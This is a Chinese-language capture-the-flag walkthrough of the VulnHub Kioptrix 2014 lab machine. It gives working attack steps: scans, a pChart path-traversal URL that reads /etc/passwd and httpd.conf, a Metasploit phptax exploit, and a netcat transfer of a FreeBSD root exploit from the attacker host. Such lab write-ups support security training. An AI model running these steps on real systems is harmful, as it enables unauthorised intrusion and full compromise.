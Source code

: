 # Kioptrix5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

**Description**

As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.

Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.

This was created using ESX 5.0 and tested on Fusion, but shouldn't be much of a problem on other platforms.

Kioptrix VM 2014 download 825Megs

MD5 (kiop2014.tar.bz2) = 1f802308f7f9f52a7a0d973fbda22c0a

SHA1 (kiop2014.tar.bz2) = 116eb311b91b28731855575a9157043666230432

Waist line 32"

p.s.: Don't forget to read my disclaimer...

Works out of the box with VMware workstation 10, player 6, fusion 6 (Can edit the vmx file to force a downgrade for an older version - see 'kiop2014_fix.zip'). Has been known to work with Virtualbox 4.3 or higher... First thing: try setting it to a x64 machine. Then check: http://download.vulnhub.com/kioptrix/kiop2014_fix.zip.

**知识点**
- LFI
- 自定义 User-agent
- phptax 漏洞利用
- freebsd 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.147` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.147
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/2.png)

一个 SSH，2个 web,从 web 先入手

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/3.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/4.png)

看来都需要爆破目录了
```
dirb http://192.168.141.147
dirb http://192.168.141.147:8080
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/6.png)

啥都没有,再看看 index.html

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/7.png)

有个 pChart2.1.3,访问看看

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/8.png)

---

# 中期-漏洞利用

有点意思,找找它的漏洞
```
searchsploit -w pChart
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/9.png)

访问 https://www.exploit-db.com/exploits/31173,发现有个目录遍历可以利用下

`http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/10.png)

尝试使用这个漏洞挖掘更多的信息

爆了半天，没爆出 httpd 配置文件，google 了一下发现别人爆出来是 `http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

想不出来这个 apache22 是怎么爆出来的，难不成是看 apache 版本号?

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/11.png)

看了下 httpd.conf 的内容,发现 8080 只允许 user-agent 为 Mozilla/4.0 Mozilla4_browser 才能访问

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/12.png)

firefox 可以自定义 user-agent

访问 about:config,搜索 general.useragent.override

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/13.png)

输入 `Mozilla/4.0 Mozilla4_browser`,再访问 192.168.141.147:8080

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/14.png)

ok,有东西了,点进去看看

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/15.png)

看起来这东西有一定年头了,搜了下这是个叫 phptax 的纳税工具,MSF 有个可利用的模块
```
msfconsole
use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.141.147
set RPORT 8080
run
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/16.png)

下面尝试提权

---

# 后期-漏洞利用

查看一些基本信息
```bash
/bin/sh -i
uname -a
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/17.png)

```
searchsploit -w freebsd 9.0
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/18.png)

kali 访问 https://www.exploit-db.com/download/26368,下载 poc

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/26368
mv 26368 poc.c
nc -lvp 1234 < poc.c
```

靶机下载 kali 上的 poc
```bash
cd /tmp
nc -nv 192.168.141.134 1234 > poc.c
gcc poc.c
ls
./a.out
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix5/19.png)

提权成功,感谢 Kioptrix Team 制作的系列靶机
